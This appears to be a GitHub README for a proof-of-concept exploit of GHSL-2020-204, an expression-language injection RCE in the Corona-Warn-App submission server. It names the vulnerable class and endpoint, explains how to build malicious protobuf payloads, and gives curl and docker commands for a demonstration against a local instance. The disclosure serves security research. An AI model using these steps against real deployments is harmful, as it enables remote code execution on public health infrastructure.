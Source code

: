# CWA submission-server GHSL-2020-204 poc

This is a simple poc for the bean validation framework RCE in the CWA-Server. General information about the security flaw in the bean validation framework can be found [here](https://securitylab.github.com/research/bean-validation-RCE/).

## Vulnerable bean validation in the submission server

The exploited method can be found [here](https://github.com/ci42/cwa-server-GHSL-2020-204-poc/blob/BeanValidationRCE/services/submission/src/main/java/app/coronawarn/server/services/submission/validation/ValidSubmissionPayload.java#L130). There are several other places in the `ValidSubmissionPayload` class where the bean validation framework flaw could be exploited. Look for `addViolation`usage with user supplied input.
The `ValidSubmissionPayload` class itself is used in the [`SubmissionController` class](https://github.com/ci42/cwa-server-GHSL-2020-204-poc/blob/BeanValidationRCE/services/submission/src/main/java/app/coronawarn/server/services/submission/controller/SubmissionController.java#L88), which is responsible for the vulnerable http endpoint under `version/v1/diagnosis-keys`.

## Payloads

Payloads must be in the protobuf format. They can be generated with the [SubmissionPayloadGenerator](https://github.com/ci42/cwa-server-GHSL-2020-204-poc/blob/BeanValidationRCE/services/submission/src/test/java/app/coronawarn/server/services/submission/SubmissionPayloadGenerator.java). Overwrite the `ORIGIN_COUNTRY` class field with arbitrary EL expressions. Various example expressions are included in the SubmissionPayloadGenerator source code.
Ready-made payloads can be found under `<repository-root>/services/submission/src/test/resources/payload`.

## Demonstrating the vulnerability

```
# start the CWA-server
$ docker-compose up

# optional: show logs of the vulnerable submission service (e.g. when showing the expression-language-payload)
$ docker-compose logs -f submission
# look for 'Origin country <the expression result> is not part of the supported countries list'

# call the submission-server with (malicious) payload
$ curl -v http://127.0.0.1:8000/version/v1/diagnosis-keys -H "cwa-fake: 0" -H "cwa-authorization: foo" -H "Content-Type: application/x-protob
uf" --data-binary @<path/to/payload>

# exec a shell the sumission container (when showing the file-dropping-payload)
$ docker exec -it <submission server containerID - find with 'docker ps'> /bin/bash
# in the container shell:
$ ls /tmp
$ cat /tmp/malicious
```
